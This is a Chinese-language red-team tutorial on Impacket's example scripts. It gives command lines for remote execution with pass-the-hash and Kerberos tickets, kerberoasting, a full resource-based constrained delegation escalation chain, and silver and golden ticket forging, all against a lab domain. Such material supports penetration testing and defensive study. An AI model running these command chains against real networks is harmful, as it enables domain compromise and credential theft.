Impacket 脚本利用指南（上）

- - -

# Impacket 脚本利用指南（上）

Su1Xu3@深蓝攻防实验室

在平时的项目中，我们经常使用 Impacket 的脚本，例如 Secretsdump、ntlmrelayx，但是实际上 Impacket 的利用除了示例脚本外还有很多，示例脚本只是其中一部分。因为 Impacket 的定位是一个处理各种网络协议的 Python 类。提供对数据包的底层编程，并为某些协议提供对应的协议实现。

不过因为示例脚本的可用性、以及示例脚本存在多种用法。所以这篇文章旨在研究学习 Impacket 所有示例脚本的功能，并通过示例脚本学习 Impacket 库的使用。

# Impacket 的脚本介绍

以下是本篇文章将会介绍使用方法的脚本一览：

| 类型  | 脚本名 | 脚本介绍 |
| --- | --- | --- |
| 远程执行 | psexec.py | 使用了 RemComSvc 的实现了 PSEXEC 功能的脚本。 |
| 远程执行 | smbexec.py | 类似 PSECEX 的执行方式，但未使用 RemComSvc。这个脚本使用了一个本地 SMB Server 接收返回的结果，可以避免目标 SMB 没有可写的目录 |
| 远程执行 | atexec.py | 这个脚本通过 MS-TSCH 协议控制计划任务在目标机器上执行命令并获得回显 |
| 远程执行 | wmiexec.py | 通过 WMI 实现了半交互式的 Shell，不需要在目标安装任何服务或软件。而且高度隐蔽的以管理员权限运行 |
| 远程执行 | dcomexec.py | 类似 wmiexec.py 的半交互式 Shell，但是使用了 DCOM 接口，目前支持的接口有`MMC20.Application`、`ShellWindows`、`ShellBrowserWindows` |
| Kerberos 协议 | GetTGT.py | 提供密码、hash 或 aeskey 用来请求 TGT 并且保存为 ccache 格式 |
| Kerberos 协议 | GetST.py | 提供密码、hash、aeskey 或 ccache 格式的 TGT，可以请求服务票据并保存为 ccache 格式。如果提供的账户存在约束委派且支持协议转换，那么可以使用-impersonate 选项模拟为其他用户请求票据 |
| Kerberos 协议 | GetPac.py | 这个脚本会为指定用户请求经过身份验证的 PAC，通过使用 MS-SFU 协议的 S4USelf 和 U2U 的 Kerberos 认证实现 |
| Kerberos 协议 | GetUserSPNs.py | 这个脚本会找出和普通用户账户关联的 SPN，输出格式与 JtR 和 hashcat 兼容 |
| Kerberos 协议 | GetNPUsers.py | 这个脚本会尝试获得并列出不需要 Kerberos 域认证 (UF\_DONT\_REQUIRE\_PREAUTH) 的用户，输出和 JtR 兼容。 |
| Kerberos 协议 | rbcd.py | 这个脚本可以处理目标机器的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性 |
| Kerberos 协议 | ticketConverter.py | 这个脚本可以在 mimikatz 常用的 kirbi 文件和 Impacket 常用的 ccache 文件之间进行转换 |
| Kerberos 协议 | ticketer.py | 这个脚本可以基于模板或自己创建金、银票据，并允许你自定义 PAC\_LOGON\_INFO、groups、ExtraSids、duration 等属性 |
| Kerberos 协议 | raiseChild.py | 这个脚本通过金票据和 ExtraSids 实现从子域到域森林的提权 |
| Windows 密码 | secretsdump.py | 提供各种技术以不运行任何程序远程 dump 密码。对 SAM 和 LSA 以及缓存的凭据，会尝试从目标注册表中读取并将 hives 保存在`%SYSTEMROOT%\Temp`目录，再将 hives 读取回来。对于 DIT 文件，会使用`DL_DRSGetNCChanges`函数来 dump 目标的 NTLM hash、明文密码和 Kerberos keys。也可以通过 smbexec 或 wmiexec 执行 vssadmin 得到 NTDS.dit，并对其进行解密。这个脚本在服务不可用的情况下会打开对应的服务，例如远程注册表。在执行结束后，会将激活的服务还原。 |
| Windows 密码 | mimikatz.py | 一个用来控制远程 mimikatz RPC 服务器的 Shell，由@gentikiwi 开发。 |

# Impacket 脚本使用实例

## 通用选项

### hash 认证

```plain
py -3 xxx.py domain/user@ip -hashes :161cff084477fe596a5db81874498a24
```

### Kerberos 认证

```plain
export KRB5CCNAME=ad01.ccache 
py -3 xxx.py -k -no-pass
```

### 指定目标 IP

```plain
-target-ip 192.168.40.156
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221124122856-82299bf8-6bb0-1.png)

### 指定域控 IP

```plain
-dc-ip 192.168.40.156
```

## 远程执行

### psexec.py

可使用密码认证、hash 认证、kerberos 认证。

#### 常用命令

**交互式 Shell**

```plain
py -3 psexec.py test/administrator:1qaz@WSX@192.168.40.156
```

**执行单命令**

```plain
py -3 psexec.py test/administrator:1qaz@WSX@192.168.40.156 whoami
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221124122920-909b866a-6bb0-1.png)

**上传文件并执行**

```plain
py -3 psexec.py test/administrator@192.168.40.156 "/c 1+1"  -remote-binary-name test.exe  -codec 936 -path c:\windows\temp\ -c p.exe -hashes :161cff084477fe596a5db81874498a24
```

#### 常用选项

```plain
-port [destination port] 指定目标 SMB 的端口
-codec codec 目标回显的编码，可先执行 chcp.com 拿到回显编码
-service-name service_name 指定创建服务的名称，默认随机
-remote-binary-name remote_binary_name 指定上传文件的名称，默认随机
```

### smbexec.py

可使用密码认证、hash 认证、kerberos 认证。

需要注意此脚本有一些参数是硬编码的，最好使用前修改一下。还可以增加单行命令执行的功能。

[](https://xzfile.aliyuncs.com/media/upload/picture/20221124122940-9ce681ae-6bb0-1.png)

#### 常用命令

**交互式 Shell**

```plain
py -3 smbexec.py test/administrator:1qaz@WSX@192.168.40.156
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221124123005-ab53a01e-6bb0-1.png)

#### 常用选项

```plain
-share SHARE 自定义回显的共享路径，默认为 C$
-mode {SHARE,SERVER} 设置 SHARE 回显或者 SERVER 回显，SERVER 回显需要 root linux
-shell-type {cmd,powershell} 设置返回的 Shell 类型
```

### atexec.py

可使用密码认证、hash 认证、kerberos 认证。

脚本使用前可修改一下回显的共享路径

#### 常用命令

**执行命令获得回显**

```plain
py -3 atexec.py test/administrator:1qaz@WSX@192.168.40.156 whoami
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221124123158-eed26a6e-6bb0-1.png)

#### 常用选项

[](https://xzfile.aliyuncs.com/media/upload/picture/20221124123225-ff09fdac-6bb0-1.png)

```plain
-session-id SESSION_ID 使用登录的 SESSION 运行（无回显，不会主动调用 cmd 如 silentcommand）
-silentcommand 不运行 cmd.exe，直接运行命令
```

### wmiexec.py

可使用密码认证、hash 认证、kerberos 认证。

#### 常用命令

```plain
py -3 wmiexec.py test/administrator:1qaz@WSX@192.168.40.156
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221124123309-19264cea-6bb1-1.png)

#### 常用选项

```plain
-share SHARE 设置连接的共享路径，默认 ADMIN$
-nooutput 不获取输出，没有 SMB 连接
-silentcommand 不运行 cmd.exe，直接运行命令
-shell-type {cmd,powershell} 设置返回的 Shell 类型
-com-version MAJOR_VERSION:MINOR_VERSION 设置 DCOM 版本
```

### dcomexec.py

可使用密码认证、hash 认证、kerberos 认证。

一般使用 MMC20，而且 DCOM 有时候会遇到 0x800706ba 的错误，一般都是被防火墙拦截。

#### 常用命令

```plain
py -3 dcomexec.py -object MMC20 test.com/administrator:1qaz@WSX@192.168.40.156
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221124123320-2005f006-6bb1-1.png)

#### 常用选项

```plain
-share SHARE 设置连接的共享路径，默认 ADMIN$
-nooutput 不获取输出，没有 SMB 连接
-object [{ShellWindows,ShellBrowserWindow,MMC20}] 设置 RCE 利用的类型
-com-version MAJOR_VERSION:MINOR_VERSION 设置 DCOM 版本
-shell-type {cmd,powershell} 设置返回的 Shell 类型
-silentcommand 不运行 cmd.exe，直接运行命令
```

## Kerberos 协议

### GetTGT.py

可使用密码认证、hash 认证、kerberos 认证。

通过认证后去 DC 请求 TGT 并保存。

#### 常用命令

获取 administrator 用户的 TGT，TGT 过期前可拿来获取其权限

```plain
py -3 GetTGT.py test/administrator:1qaz@WSX -dc-ip 192.168.40.156
```

### GetST.py

可使用密码认证、hash 认证、kerberos 认证。

通过认证后去 DC 请求 ST 并保存。

#### 常用命令

用 administrator 的权限获取 AD01.test.com 的 cifs 服务的服务票据（ST）

```plain
py -3 GetST.py test/administrator:1qaz@WSX -dc-ip 192.168.40.156 -spn cifs/AD01.test.com
```

#### 常用选项

```plain
-impersonate IMPERSONATE    模拟为指定的用户的权限
-additional-ticket ticket.ccache    在委派的 S4U2Proxy 中添加一个可转发的服务票据
-force-forwardable  通过 CVE-2020-17049 强制忽略校验票据是否可转发
```

### GetPac.py

可使用密码认证、hash 认证

#### 常用命令

查询 test 用户的 PAC，可以看到登录次数、密码错误次数之类的

```plain
py -3 getPac.py test.com/administrator:1qaz@WSX -targetUser test
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221124123429-48cbe5a4-6bb1-1.png)

### GetUserSPNs.py

可使用密码认证、hash 认证、Kerberos 认证

#### 常用命令

查询 test.com 中的用户的 SPN 有哪些，只需要任意一个域用户即可利用，只要有用户的 SPN 可以请求，可以获取其 TGS 爆破其密码

```plain
py -3 GetUserSPNs.py test.com/administrator:1qaz@WSX -target-domain test.com
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221124123534-6f7ca594-6bb1-1.png)

#### 常用选项

```plain
-request 请求所有用户 SPN 的 TGS，可拿来爆破用户密码
-request-user username 请求指定用户的 TGS
-usersfile USERSFILE 请求指定文件内所有用户的 TGS
```

### GetNPUsers.py

可使用密码认证、hash 认证、Kerberos 认证

#### 常用命令

查询域内哪些用户不需要 Kerberos 预身份认证，只需要任意一个域用户即可利用，只要有用户不需要 Kerberos 预身份认证，可以获取其 AS\_REQ 拿来爆破其密码。

```plain
py -3 GetNPUsers.py test.com/test:1qaz@WSX
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221124123542-743a237c-6bb1-1.png)

#### 常用选项

```plain
-request 请求不需要 Kerberos 预身份认证用户的 TGT，可拿来爆破
-format {hashcat,john} 设置 AS_REQ 的爆破格式，默认 hashcat
-usersfile USERSFILE 请求指定文件内所有用户的 TGT
-outputfile OUTPUTFILE 向指定文件输出结果
```

### rbcd.py

可使用密码认证、hash 认证、Kerberos 认证

rbcd 这个脚本适合于已经有了一个域用户，然后发现该用户对目标机器的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性有写权限。例如有`GenericAll`就包含此子权限。

此时通过该域用户创建一个机器账户加入域，就能将机器账户的 SID 写入目标机器的属性中。从而让机器账户可以在目标机器上通过委派模拟为任意用户的权限。

#### 常用命令

使用 test 用户，向`WIN-7$`的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性写入`test_computer$`的 SID

```plain
py -3 .\rbcd.py -delegate-to WIN-7$ -delegate-from test_computer$ -dc-ip 192.168.40.140 test/test:1qaz@WSX -action write
```

#### 常用选项

```plain
-action [{read,write,remove,flush}] 选择要对特殊属性进行的操作，可选读取、写入、删除、清空
-use-ldaps 使用 LDAPS 协议替换 LDAP
```

#### 利用实例

因为这个脚本利用比较复杂，所以增加了利用实例

比如，此时我在域中拥有一个普通用户 test:1qaz@WSX，通过 ACL 发现 test 对 WIN-7 具有`msDS-AllowedToActOnBehalfOfOtherIdentity`的写权限。

所以我先通过 test 添加一个 computer，test\_computer$:1qaz@WSX，命令如下：

```plain
py -3 addcomputer.py test.com/test:1qaz@WSX -computer-name test_computer$ -computer-pass 1qaz@WSX
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221124123552-7a7de570-6bb1-1.png)

然后通过 test 用户和 rbcd.py 脚本给 WIN-7 设置属性。将 WIN-7$的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性指向 test\_computer$

```plain
py -3 .\rbcd.py -delegate-to WIN-7$ -delegate-from test_computer$ -dc-ip 192.168.40.140 test/test:1qaz@WSX -action write
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221124123559-7e55e22e-6bb1-1.png)

设置好属性后，使用 getST.py 获取到 administrator 的`cifs/WIN-7`的服务票据（ST）

```plain
py -3 .\getST.py -spn 'cifs/WIN-7' -impersonate administrator -dc-ip 192.168.40.140 'test/test_computer$:1qaz@WSX'
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221124123608-83b309d6-6bb1-1.png)

将生成的适合 Linux 使用的 ccache 格式转换为 Windows 的 kirbi

```plain
py -3 .\ticketConverter.py .\administrator.ccache .\administrator.kirbi
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221124123615-8814309a-6bb1-1.png)

通过 mimikatz 加载票据

```plain
kerberos::ptt C:\Python38\Scripts\administrator.kirbi
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221124123621-8bb3e8d0-6bb1-1.png)

此时即可正式利用，可通过 klist 查看票据确实注入了。然后直接对目标的 cifs 进行 dir 操作，或通过 psexec 等横向手法横向即可。如下图所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20221124123631-9197cea6-6bb1-1.png)

#### 无 MAQ 时的新利用方式

当用户具有 A 机器的写权限，但是无法新建机器利用 rbcd，且当前用户没有可用的 SPN 时，可以使用该技术。该技术还未并入主进程。

使用 UPN 替代 SPN 进行 rbcd。流程如下：

用 test 用户的权限请求模拟 administrator 用户的服务票据，仅在 rbcd 情况下有效。且获取 TGT 后要将 TGT 的 Sessionkey 改为 test 的 hash。否则 TGS 无法解密

```plain
#请求 test/test 用户的 TGT
getTGT.py -hashes :$(pypykatz crypto nt 'password') test/test
#查看 TGT 里面的 Ticket Session Key
describeTicket.py 'TGT.ccache' | grep 'Ticket Session Key'
#将 test/test 用户的 hash 改为 TGTSessionKey
smbpasswd.py -newhashes :TGTSessionKey test/test:'password'@'dc01'
#通过委派模拟为 administrator 用户
KRBR5CCNAME='TGT.ccache'
getST.py -u2u -impersonate Administrator -k -no-pass test/test
#还原 test/test 用户的 hash
smbpasswd.py -hashes :TGTSessionKey -newhashes :OldNTHash test/test@'dc01'
```

参考资料：

[https://github.com/GhostPack/Rubeus/pull/137](https://github.com/GhostPack/Rubeus/pull/137)

### ticketConverter.py

不需要认证，因为这个脚本是在 ccache 和 kirbi 格式中互相转换用的脚本。

#### 常用命令

将 ccache 转换为 kirbi，交换位置就是 kirbi 转换为 ccache

```plain
py -3 .\ticketConverter.py .\administrator.ccache .\administrator.kirbi
```

### ticketer.py

可使用密码认证、hash 认证

这个脚本主要拿来伪造各种服务票据，例如银票据、金票据、钻石票据、蓝宝石票据。

注意 2021 年 11 月更新之后，如果用户名在 AD 域中不存在，则票据会被拒绝。

#### 常用命令

**银票伪造**

银票因为不需要与 DC 通信，所以比金票更加隐蔽。但是银票只能对伪造的服务有效，且会随着服务账户密码的修改而失效。

使用 win-7$的机器账户的 hash`96dd976cc094ca1ddb2f06476fb61eb6`伪造`cifs/win-7`的服务票据，使用票据的用户是根本不存在的 qqq 或者存在的任意用户。

```plain
py -3 .\ticketer.py -spn cifs/win-7 -domain-sid S-1-5-21-2799988422-2257142125-1453840996 -domain test.com -nthash 96dd976cc094ca1ddb2f06476fb61eb6 qqq
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221124123644-9943f9fe-6bb1-1.png)

**金票伪造**

使用 krbtgt 的密钥伪造 TGT 中的 PAC 的权限，证明任意用户属于特权组。然后通过伪造了 PAC 的 TGT 换 ST，从而获得任意服务的权限。金票据因为需要和 DC 进行交互，所以建议在域内使用，域外通过代理使用有时候会换不到 ST。

注意金票会随着 krbtgt 密码的修改而失效

在银票的命令基础上去掉-spn，将 nthash 修改为 krbtgt 的 hash 即可。

```plain
py -3 .\ticketer.py -domain-sid S-1-5-21-2799988422-2257142125-1453840996 -domain test.com -nthash 96dd976cc094ca1ddb2f06476fb61eb6 qqq
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20221124123703-a49dcc44-6bb1-1.png)

